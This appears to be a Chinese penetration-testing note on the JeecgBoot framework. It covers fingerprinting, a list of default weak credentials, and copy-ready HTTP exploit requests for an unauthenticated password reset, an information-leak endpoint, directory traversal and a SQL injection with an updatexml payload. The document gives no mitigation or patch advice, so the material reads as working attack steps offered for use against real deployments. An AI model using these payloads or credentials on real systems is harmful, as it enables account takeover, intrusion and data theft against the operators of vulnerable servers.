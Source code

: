 ![1751074352_685f463098ada0ee7f739.png!small?1751074352654](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lzsgIxl5SSvGeiccQU9JkpguDDJZfP4zjE0z4SaBENVPKy9cjWbANTlfPFn3AlVjbCGTA8fhX2QUQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![1751074496_685f46c03fc59e5f87987.png!small?1751074496168](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lzsgIxl5SSvGeiccQU9JkpgYPWRlktjUU1J3E1uibEMf5WeUZUM6CJWQX6eyXkmr1QXWw5PT2Zlglg/640?wx_fmt=jpeg&from=appmsg "")  
  
出现以下这几种情况基本可以确定是jeecg-boot,也可以通过接口或者图标等信息进行判定。  
## 常见弱口令漏洞  
> admin/123456  
> jeecg/123456  
> admn/admin  
> test/test  
> demo/test  
> jeecg/jeecg123456  
> guest/guest  
  
  
![1751076190_685f4d5e730f2eaae1882.png!small?1751076190863](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0lzsgIxl5SSvGeiccQU9Jkpgex54C8n4mOPViayxXiaBQfTorWEvdKa9WTllvGGKWw05EV8Svscu098A/640?wx_fmt=jpeg&from=appmsg "")  
## JeecgBoot passwordChange接口任意用户密码重置  
```
GET /jeecg-boot/sys/user/passwordChange?username=admin&password=admin&smscode=&phone= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```  
  
## jeecg-boot-checkOnlyUser信息泄露漏洞  
> /jeecg-boot/sys/user/querySysUser?username=admin  
>   
> Jeecg-Boot 2.4.5及之前版本存在不安全权限漏洞。攻击者可利用该漏洞通过uri:/sys/user/checkOnlyUser?username=admin提升权限并查看敏感信息。  
  
## jeecg-boot-目录遍历漏洞  
> /jeecg-boot/online/cgform/head/fileTree?_t=1632524014&parentPath=/  
>   
> 低权限账号访问直接返回服务器文件目录信息  
  
## Jeecg-boot 3.4.4 /sys/dict/queryTableData SQL注入  
```
在Jeecg-boot 3.4.4中曾发现分类为致命的漏洞。 此漏洞会影响未知代码文件/sys/dict/queryTableData。 手动调试的不合法输入可导致 SQL注入。
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US) AppleWebKit/525.13 (KHTML, like Gecko) Chrome/0.2.149.29 Safari/525.13
Content-Type: application/json; charset=utf-8
Content-Length: 127
Host: 
Connection: close
Accept-Encoding: gzip, deflate
{"apiSelectId":"1316997232402231298","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select md5(123456))),1)) or '%%' like '"}
```  
  